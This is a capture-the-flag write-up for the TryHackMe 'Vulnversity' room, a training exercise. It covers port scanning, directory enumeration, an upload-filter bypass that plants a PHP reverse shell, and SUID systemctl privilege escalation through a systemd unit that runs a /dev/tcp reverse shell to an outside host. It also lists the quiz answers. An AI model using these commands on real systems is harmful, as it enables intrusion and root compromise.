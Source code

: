 # VulnUniversity

- [Tools](#tools)
- [Deploy the machine](#deploy-the-machine)
- [Reconnaissance](#reconnaissance)
- [Locating directories using Gobuster](#locating-directories-using-gobuster)
- [Privilege Escalation](#privilege-escalation)

Room Link: https://tryhackme.com/room/vulnversity

## Tools 

1. NMap https://nmap.org/download
2. Gobuster https://github.com/OJ/gobuster
3. Burp Intruder https://portswigger.net/burp
4. Burp Proxy Toggle Extension https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/

## Deploy the machine 

1. Deploy The Machine by clicking Start The Machine
2. Download ovpn file and connect to the network using command `sudo openvpn --config username.ovpn`.

## Reconnaissance

1. Scan ports of the machine with given command `nmap -sV 10.10.65.81`
Output of the command:
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 09:55 IST
Nmap scan report for 10.10.135.130
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.77 seconds
```
3. Question `how many ports are open?` Answer `6`
4. Question `What version of the squid proxy is running on the machine?` Answer `3.5.12`
5. Question `How many ports will Nmap scan if the flag -p-400 was used?` Answer `400`
6. Question `What is the most likely operating system this machine is running?` Answer `Ubuntu`
7. Question `What port is the web server running on?` Answer `3333`
8. Question `What is the flag for enabling verbose mode using Nmap?` Answer `-v`

## Locating directories using Gobuster 
   
1. Port 3333 is http server, So web interface looks like that http://10.10.65.81:3333
2. We can run directory busting tool gobuster as per given command with our own wordlist `gobuster dir -u http://10.10.65.81:3333 -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`
Output of the command: 
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.81:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.65.81:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.65.81:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.65.81:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.65.81:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.65.81:3333/internal/]
Progress: 9932 / 1273834 (0.78%)
```
3. Question `What is the directory that has an upload form page?` Answer `/internal/`

## Compromise the Webserver 

1. Question `What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.` Answer `.php`
2. Run burpsuite as per instruction and user intruder. Use firefox extension, https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/
3. Question `Run this attack, what extension is allowed?` Answer `.phtml`
4. Now we need to make our shell with given instruction using https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. Just replace ip to our netcat listening ip (tun0) and file extension to `.phtml`. Use `nc -lvnp 1234` to get shell.
5. Now just upload the file and open http://10.10.65.81:3333/internal/uploads/ and click on the shell to get reverse shell.
6. Question `What is the name of the user who manages the webserver?` Answer `bill`. Use `ls /home` command to get username.
7. Question `What is the user flag?` Answer `********************************` (32 alphanumeric characters). Command used `cat /home/bill/user.txt`

## Privilege Escalation 

1. To check suid permission files, we can use `find / -perm /4000 2> /dev/null`.
2. Question `On the system, search for all SUID files. Which file stands out?` Answer `/bin/systemctl` Because systemctl don't have suid permission normally.
3. Now we can start rooting the server.
4. At first I created a file on my machine named ZishanAdThander.service (with my ip, you can user your ip)
```bash
[Unit]
Description=ZishanAdThandar

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.102.105/1337 0>&1'

[Install]
WantedBy=multi-user.target
```
5. Now started web server on my machine using `python3 -m http.server 7860`
6. On the reverse shell, moved to `/tmp` directory using `cd /tmp` command. Then uploaded the file with `wget http://10.17.102.105:7860/ZishanAdThandar.service` command.
7. Now we can add the service using `/bin/systemctl enable /tmp/ZishanAdThandar.service` command on reverse shell.
8. Started netcat listner on the given port with `nc -lvnp 1337`.
9. Now we need can run the command `/bin/systemctl start ZishanAdThandar` to start the service and immediately we will get reverse shell as root on another netcat listner.
10. Question `Become root and get the last flag (/root/root.txt)` Answer `********************************` (32 alphanumeric characters). Command used `cat /root/root.txt`

    
Author: [Zishan Ahamed Thandar](https://github.com/ZishanAdThandar/WriteUps/tree/main?tab=readme-ov-file#about-me)




